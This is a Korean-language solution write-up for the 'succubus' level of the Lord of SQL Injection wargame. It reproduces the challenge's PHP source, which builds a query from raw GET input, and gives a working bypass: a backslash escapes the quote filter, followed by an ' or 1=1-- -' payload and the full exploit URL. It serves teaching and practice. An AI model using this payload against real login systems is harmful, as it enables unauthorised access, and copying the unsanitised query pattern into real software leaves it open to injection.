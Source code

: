 # Lord of SQL Injection No.17 - succubus

## 문제 출제 의도

`'`을 필터링하는 ereg() 함수를 우회하여 SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석

succubus 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
```
* GET방식으로 id와 pw를 받고, id나 pw에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, 이번엔 `preg_match` 함수를 써서 id나 pw에 `'` 이 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
```
* 받은 id가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "0"을 제외한 어떤 문자열이든 들어있음'이다.

-----

## Solution
    
1. 문자 Escape 이용

    바로 전 단계 문제와 유사하나 이번에는 `'`을 `preg_match` 함수로 필터링하여 우회하기 어렵게 만들었다.

    따라서 이번에는 함수를 우회하기보다 SQL문이 문자열로 인식하는 부분을 우회하여 풀면 편하다.

    ```php
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
    if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
    ```

    필터링하는 부분을 보면 `\`, 즉 백슬래시는 필터링하지 않고 있다.

    SQL문에서 `\`를 이용하여 `'`, `"`, `` ` `` 등을 이스케이프 해 주면 문자열에서 쓸 수 있게 인식한다.

    따라서 id 입력값으로 `\`, pw 입력값으로 ` or 1=1-- -` 과 같이 ` and pw=`가 문자열로 인식되고 그 후 `' or 1=1-- -`이 SQL문으로써 작동하도록 하면 문제가 풀리게 된다.

    ```
    http://los.eagle-jump.org/succubus_8ab2d195be2e0b10a3b5aa2873d0863f.php?id=\&pw= or 1=1-- -
    ```

    ```
    select id from prob_succubus where id='\' and pw=' or 1=1-- -'
    ```
